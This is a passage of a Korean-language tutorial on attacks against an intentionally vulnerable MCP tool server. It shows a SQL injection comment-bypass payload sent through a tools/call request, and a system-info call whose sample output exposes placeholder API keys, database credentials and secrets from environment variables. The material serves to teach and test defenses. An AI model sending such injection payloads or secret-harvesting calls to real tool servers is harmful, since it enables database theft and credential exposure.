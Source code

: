 #### 🚨 공격 예제 3: 주석을 이용한 우회
```json
{
  "method": "tools/call",
  "params": {
    "name": "search_users",
    "arguments": {
      "username": "admin'; --"
    }
  }
}
```

### 실제 위험 상황
- 전체 데이터베이스 덤프
- 관리자 계정 정보 탈취
- 데이터 삭제나 변조

---

## 4. 🚨 Information Disclosure (정보 노출)

### 공격 시나리오
공격자가 시스템 정보를 수집하여 추가 공격을 계획하는 상황입니다.

### 실행 예제

```json
{
  "method": "tools/call",
  "params": {
    "name": "get_system_info",
    "arguments": {}
  }
}
```

**위험한 노출 정보:**
```json
{
  "os": "posix",
  "platform": "darwin",
  "python_version": "3.11.5 (main, Aug 24 2023, 15:18:16) [Clang 14.0.3 ]",
  "current_user": "isaac",
  "home_directory": "/Users/isaac",
  "path": "/usr/local/bin:/usr/bin:/bin:/usr/sbin:/sbin",
  "working_directory": "/Users/isaac/Vulnerable-MCP-server",
  "environment_variables": {
    "HOME": "/Users/isaac",
    "USER": "isaac",
    "API_KEY": "sk-1234567890abcdef",  // 🚨 API 키 노출!
    "DATABASE_URL": "postgresql://user:pass@localhost/db",  // 🚨 DB 정보 노출!
    "SECRET_KEY": "super-secret-key-123"  // 🚨 시크릿 키 노출!
  }
}
```
